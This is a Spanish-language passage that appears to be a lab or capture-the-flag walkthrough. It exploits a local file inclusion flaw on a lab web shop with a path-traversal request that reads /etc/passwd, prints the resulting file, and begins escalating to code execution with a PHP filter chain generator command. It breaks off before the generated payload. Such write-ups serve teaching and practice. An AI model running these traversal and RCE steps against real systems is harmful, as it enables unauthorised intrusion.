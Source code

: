 Ejecutamos el ataque:
```bash
20.20.20.3/shop/index.php?archivo=../../../../../etc/passwd
```

Tenemos el contenido del archivo **passwd**
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Ahora sabemos que tenemos dos usuario en el sistema objetivo:
```bash
seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash
```

Ahora tendremos que derivar el **LFI** a un **RCE** con la herramienta **phpFilterChainGenerator**
```bash
php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'
```

Ahora nos genera este payloada:
```bash
```